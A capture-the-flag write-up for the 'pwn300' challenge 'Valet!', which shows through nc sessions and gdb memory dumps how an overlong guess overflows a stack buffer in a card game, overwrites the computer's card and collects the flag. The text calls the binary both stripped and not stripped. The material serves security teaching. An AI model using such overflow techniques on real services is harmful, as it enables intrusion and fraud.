

Valet!
======

* Flag: **valet_knekt_jack_jumbo**
* File: [pwn300.zip](data/pwn300.zip "pwn300.zip")



Unzipping the challenge file produces a 32-bit ELF executable:

```
$ file pwn300
pwn300: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, BuildID[sha1]=98d5f34abf07ef0be2a640daad59507956350a9b, not stripped
```

If we try to run the executable, we can see that it runs a service on
a provided port:

```
$ ./pwn300
Usage: ./pwn300 <port>
$ ./pwn300 6000

```

Connecting to the port, we encounter a game:

```
$ nc localhost 6000
Welcome to Google Gamble.
=========================

Google Gamble is easy. Guess the card drawn
from the deck and double your money! Make it all
the way to $1048576 to get a flag! Good luck!

Your current balance: 1$

Select an option:
1. Guess a card
2. Get the flag
3. Quit
1
Please enter your guess: AA
The computer picked S4
Nope, you lose this time!
Your current balance: 0$
```

At this point, we could hypothesize that there is something like a
buffer overlow, and just start trying long inputs, or step through the
program under `gdb`.

Trying the former first:

```
Your current balance: 1$

Select an option:
1. Guess a card
2. Get the flag
3. Quit
1
Please enter your guess: XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
The computer picked XXXXXXXXXXXXprtvxz|????
Congrats, you won this round!
Your current balance: 2$

Select an option:
1. Guess a card
2. Get the flag
3. Quit
Please enter your guess: The computer picked XXXXXXXXXXXXprtvxz|????
Congrats, you won this round!
Your current balance: 4$
```

This confirms that there is something like a buffer overflow: the
user-provided guess is overwriting the computer's guess such that we
always win. From here we could just keep providing a long repeated
character as input 20 times, doubling our balance each time, until we
hit the target $1048576.

Let's explore the program under `gdb` to understand the precise source
of the vulnerability:

```
$ gdb pwn300
GNU gdb (Ubuntu 7.7-0ubuntu3.1) 7.7
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from pwn300...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) display/i $pc
```

The program forks a process to handle each connection, so we tell
`gdb` to follow the child process with `set follow-fork-mode child`.

Because the executable is stripped and we don't have debug symbols, we
have to `stepi` instruction by instruction. For readability, we set
`display/i $pc` so the next instruction is automatically printed after
every `stepi`.

Skimming through the [output of `objdump -d`](data/pwn300.dump), we
see that inside the `guess_card` function:

1. The computer's choice is computed through some calls to `rand`
followed by some transformations on the results. If we step to the
`send` call with which the computer's choice is transmitted, we can
see that the computer's choice is stored at `0xffffd57c`:

```
=> 0x804890d <socket_send+45>:   call   0x80487c0 <send@plt>
(gdb) x/4x $esp
0xffffd540: 0x00000004  0xffffd57c      0x00000002      0x00000000
(gdb) x/x 0xffffd57c
0xffffd57c:     0x00003348
```

In this case, the computer picked the 3 of Hearts:

```
>>> "3348".decode("hex")
3H
```

2. If we step to the `recv` call, we can see that the user's guess is
stored at `0xffffd578`:

```
=> 0x8048938 <socket_recv+36>:           call   0x80487a0 <recv@plt>
(gdb) x/4x $esp
0xffffd540: 0x00000004  0xffffd578      0x00000010      0x00000000
```

`recv` writes up to `0x10` characters to `0xffffd578`, but `0xffffd57c - 0xffffd578 = 4`,
which means we can supply enough characters in the user guess to
overwrite the computer's choice.

We can determine exactly how many characters we need to provide by
looking at the `strncmp` that compares the computer's choice to the
user guess:

```
=> 0x8048b14 <guess_card+338>:  call   0x8048790 <strncmp@plt>
(gdb) x/4x $esp
0xffffd560: 0xffffd578  0xffffd57c      0x00000003      0x08048f74
```

We are comparing 3 characters between `0xffffd578` (user guess) and
`0xffffd57c` (computer guess). That means we need to supply
`(0xffffd57c - 0xffffd578 = 4) + 3 = 7` characters such that
characters 123 = characters 567 (a simple option being 7 of the same
character).

So all we need to do is supply `XXXXXXX` or longer to win every time!

```
Select an option:
1. Guess a card
2. Get the flag
3. Quit
Please enter your guess: The computer picked XXXXXXXXXXXXprtvxz|????

Congrats, you won this round!
Your current balance: 1048576$

Select an option:
1. Guess a card
2. Get the flag
3. Quit
2
Here is your well-deserved prize: flag{valet_knekt_jack_jumbo}
```

(The flag in the local copy of the executable is `ev3n::y0u::bru7us?!`)

[« Return to challenge board](../README.md "Return to challenge board")
